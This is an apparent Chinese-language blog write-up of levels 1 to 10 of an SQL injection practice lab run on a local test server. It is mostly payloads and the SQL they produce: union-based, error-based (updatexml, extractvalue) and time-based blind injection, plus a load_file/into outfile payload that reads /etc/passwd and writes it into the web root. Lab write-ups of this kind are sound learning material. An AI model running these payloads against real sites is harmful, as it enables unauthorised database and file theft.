 ```yaml
---
layout: post
title: SQL闯关1-10
date: 2018-10-30
categories: blog
tags: [WEB]
description: 文艺的流氓。
---
```

### 第一题：

 - 第一题是萌新题目。啥子都没有过滤。就可以直接注出来(我自己是到文件中显示了SQL语句)可以看的到十单引号闭合
 - 那么就直接使用 order by 猜解字段数量, 猜解字段数量的时候建议使用二分法来进行猜解
 - Payload：SELECT * FROM users WHERE id = ‘1’ order by 3 — b ‘ LIMIT 0,1
 - 猜解出来了三个字段。接着使用union 来进行确认回显的位置(需要前面查询不到数据)
 - Payload：SELECT * FROM users WHERE id='1123' union select 1,2,3 -- b' LIMIT 0,1
 - 接下来就可以使用information_schema数据库来进行查找我们需要的数据了
 - 查询处用户是谁。还有数据库的名字
 - Payload: SELECT * FROM users WHERE id='1123' union select 1,user(),database() -- b' LIMIT 0,1
 - 使用不存在的变量,然后爆出数据名字
 - Payload：SELECT * FROM users WHERE id='11' union select 1,a(),3 -- b' LIMIT 0,1 
![iReT2T.png](https://s1.ax1x.com/2018/10/30/iReT2T.png)
 - 常用的一些mysql变量：
| name  | Effect |
| ------------- | ------------- |
| VERSION()  | 显示版本信息  |
| @@VERSION()  | 显示版本信息  |
| @@GLOBAL.VERSION()  | 显示版本信息  |
| User()  | 显示当前用户  |
| @@HOSTNAME  | 显示主机名  |
| System_user()  | 显示当前用户  |
| Current_user  | 显示当前用户  |
| Session_user()  | 显示当前用户  |
| Schema()  | 显示当前数据库  |

[![iRe7xU.png](https://s1.ax1x.com/2018/10/30/iRe7xU.png)](https://imgchr.com/i/iRe7xU)
 - 利用information进行查询处数据库
 - Payload：SELECT * FROM users WHERE id='11' union select null,table_name,null from information_schema.tables limit 0,1 -- b' LIMIT 0,1
 - 第一题就说完了。如果需要拿shell的话。是需要知道绝对路径的

### 第二题：

 - 第二题是int类型的注入。直接使用：payload：SELECT * FROM users WHERE id=123 union select 1,database(),3 -- b LIMIT 0,1
 - 直接跟上一个union 就爆出来了数据库名字
[![iReqr4.png](https://s1.ax1x.com/2018/10/30/iReqr4.png)](https://imgchr.com/i/iReqr4)

### 第三题：
 - 第三题是进行括号闭合。那么只需要使用括号闭合前面的就可以进行注入，因为没有其他的过滤
Payload：http://192.168.197.129/sql/Less-3/index.php?id=123') union select 1,database(),3 — b
 - SQL语句：SELECT * FROM users WHERE id=('123') union select 1,database(),3 -- b') LIMIT 0,1
[![iReLqJ.png](https://s1.ax1x.com/2018/10/30/iReLqJ.png)](https://imgchr.com/i/iReLqJ)

### 第四题：
 - 第四题看了下SQL语句发现就是双引号加上了括号闭合
 - payload：http://192.168.197.129/sql/Less-4/index.php?id=123") union select 1,database(),3 -- b
 - SQL语句：SELECT * FROM users WHERE id=("123") union select 1,database(),3 -- b") LIMIT 0,1
![iReXZ9.png](https://s1.ax1x.com/2018/10/30/iReXZ9.png)

### 第五题：
 - 第五题是一个盲注。没有回显的那种。我使用的方法就是查询一个不存在的变量。然后就爆出了数据库名称
但是这种方法就显的有点鸡肋了。我就使用了updatexml这个函数来进行注入
 - payload：http://192.168.197.129/sql/Less-5/index.php?id=123' union select updatexml(0,concat(0x7e,(select database()),0x7e),1) -- b
 - SQL语句：SELECT * FROM users WHERE id='123' union select updatexml(0,concat(0x7e,(select database()),0x7e),1) -- b' LIMIT 0,1
![iRmPMD.png](https://s1.ax1x.com/2018/10/30/iRmPMD.png)
 - 还可以利用extractvalue来进行注入。 其中updatexml只能够返回32为数据 结合substr能够达到很好的效果
 - payload：http://192.168.197.129/sql/Less-5/index.php?id=121' union select extractvalue(rand(),concat(0x3a,(select table_name from information_schema.tables where table_schema=database() limit 1,1))) -- b
 - SQL语句：SELECT * FROM users WHERE id='121' union select extractvalue(rand(),concat(0x3a,(select table_name from information_schema.tables where table_schema=database() limit 1,1))) -- b' LIMIT 0,1
![iRmFqH.png](https://s1.ax1x.com/2018/10/30/iRmFqH.png)

### 第六题：
 - 第六题同样也就是盲注。相比于上一题也就是使用的双引号闭合
 - payload：http://192.168.197.129/sql/Less-6/index.php?id=1" union select updatexml(0,concat(0x7e,(select database()),0x7e),1) -- hacker
 - SQL：SELECT * FROM users WHERE id="1" union select updatexml(0,concat(0x7e,(select database()),0x7e),1) -- b" LIMIT 0,1
![iRmEdA.png](https://s1.ax1x.com/2018/10/30/iRmEdA.png)

### 第七题：
 - 第七题是需要插入文件。可以直接使用outfile这个函数来进行注入
 - 在离表哥哪里学习到了一个骚姿势。就是配合load_file函数就可以达到把主机上的文件任意读取
 - payload：http://192.168.197.129/sql/Less-7/index.php?id=112')) union select null,null,load_file("/etc/passwd") into outfile "/var/www/html/sql/test.php" -- hack
 - SQL语句：SELECT * FROM users WHERE id=(('112')) union select null,null,load_file("/etc/passwd") into outfile "/var/www/html/sql/test.php" -- hack')) LIMIT 0,1
![iRmmJP.png](https://s1.ax1x.com/2018/10/30/iRmmJP.png)

### 第八题：
 - 同样是盲注。只不过用不了报错注入。因为不会提示错误信息。但是返回还是有正确的和错误的。所以还是能够使用时间注入来进行注入的
 - 我自己是使用的时间注入来进行测试的（也是能够使用盲注if）
 - Payload：http://192.168.197.129/sql/Less-8/index.php?id=1123' union select null,null,if(user() like 'root@localhost',sleep(5),null) — hacker
 - SQL：SELECT * FROM users WHERE id='1123' union select null,null,if(user() like 'root@localhost',sleep(5),null) -- ha' LIMIT 0,1
![iRmlLQ.png](https://s1.ax1x.com/2018/10/30/iRmlLQ.png)

### 第九题：
 - 这一题就必须使用时间注入了。因为我查看了源代码发现了。真和否返回的结果都是一样的。所以只能够基于时间来进行注入。也是单引号闭合,直接使用上一题的payload就可以了
 - Payload:http://192.168.197.129/sql/Less-9/index.php?id=1123' union select null,null,if(user() like 'root@localhost',sleep(5),null) — hacker
 - SQL:SELECT * FROM users WHERE id='1123' union select null,null,if(user() like 'root@localhost',sleep(5),null) -- ha' LIMIT 0,1
![iRm8ds.png](https://s1.ax1x.com/2018/10/30/iRm8ds.png)

### 第十题：
 - 这一题就是双引号闭合。同样的也是使用时间注入.
 - Payload:http://192.168.197.129/sql/Less-10/index.php?id=12312" union select null,null,if(user() like 'root@localhost',sleep(5),null) — hcaker
 - SQL:SELECT * FROM users WHERE id="12312" union select null,null,if(user() like 'root@localhost',sleep(5),null) -- hcaker" LIMIT 0,1
![iRmYiq.png](https://s1.ax1x.com/2018/10/30/iRmYiq.png)

#### 剩下的尽快补上。。。。。。


https://app.yinxiang.com/shard/s46/res/37df04d7-120e-404e-b542-aadba914b39b.png







